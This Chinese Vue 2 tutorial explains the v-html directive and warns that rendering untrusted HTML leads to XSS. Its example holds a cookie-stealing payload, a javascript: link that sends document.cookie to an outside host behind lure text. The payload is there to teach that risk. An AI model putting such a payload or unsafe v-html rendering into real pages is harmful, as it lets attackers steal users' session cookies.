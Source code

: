 效果：

![Vue核心-内置指令与自定义指令01.png](https://obsidian-picture.oss-cn-qingdao.aliyuncs.com/my-img/Vue核心-内置指令与自定义指令01.png)

## v-html 指令

作用：向指定节点中渲染包含 html 结构的内容   

与插值语法的区别：  
+ v-html 会替换掉节点中所有的内容，`{{xxx}}` 则不会  
+ v-html 可以识别 html 结构   

严重注意 v-html 有安全性问题！！！  
+ 在网站上动态渲染任意 html 是非常危险的，容易导致 XSS 攻击  
+ 一定要在可信的内容上使用 v-html，永远不要用在用户提交的内容上！！！

例：

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>v-html指令</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <div>你好，{{name}}</div>
      <div v-html="str1"></div>
      <div v-html="str2"></div>
    </div>
    <script>
      Vue.config.productionTip = false
      new Vue({
        el: '#root',
        data: {
          name: 'zhf',
          str1: '<h3>你好呀！</h3>',
          str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
        },
      })
    </script>
  </body>
</html>
```

我们在 cookie 中存放如下数据

![Vue核心-内置指令与自定义指令02.png](https://obsidian-picture.oss-cn-qingdao.aliyuncs.com/my-img/Vue核心-内置指令与自定义指令02.png)
